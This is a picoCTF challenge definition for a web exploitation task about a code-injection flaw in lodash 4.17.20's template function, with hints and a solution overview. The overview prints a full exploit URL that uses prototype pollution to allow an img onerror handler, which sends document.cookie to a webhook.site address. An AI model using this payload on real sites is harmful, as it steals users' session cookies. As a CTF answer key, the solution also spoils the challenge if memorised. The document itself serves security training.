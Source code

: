 # supply-me-vuln

- Namespace: picoctf/18739f24
- ID: supply-me-vuln
- Type: custom
- Category: Web Exploitation
- Points: 1
- Templatable: yes
- MaxUsers: 1

## Description

The site uses a buggy library! Figure it out and carry out the exploit!


## Details

Browse {{link_as('/', 'here')}}, and find the flag!


## Hints

- How do you determine what library is running behind the scene?
- Can you get its version?

## Solution Overview

- Install library detector extension on your browser and detect the library being used
- some of them provides the version of the library, if not, since the target library is lodash, we can print the version out with _.VERSION
- By searching online we know that lodash 4.17.20 has a code injection vulnerability in its template function
- Inspect the behavior and given source code of the function `pass_val`, combined with the lodash template usage to build up a XSS payload
- carry out the attack to get the flag saved in document.cookie of another user, use a self-host server to get the 
  redirected request

- cookie exploit url for remote server: http://localhost:8000?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src&__proto__[hasOwnProperty]={}&name=<img src onerror=fetch('https://webhook.site/62766d8c-83e6-40b6-a12d-6f65c884f7ce?cookie='%2Bdocument.cookie)>



## Learning Objective

- Get to know about the supply chain attacks

## Attributes

- author: Ian Lin
- organization: picoCTF
- event: picoCTF Problem Developer Training
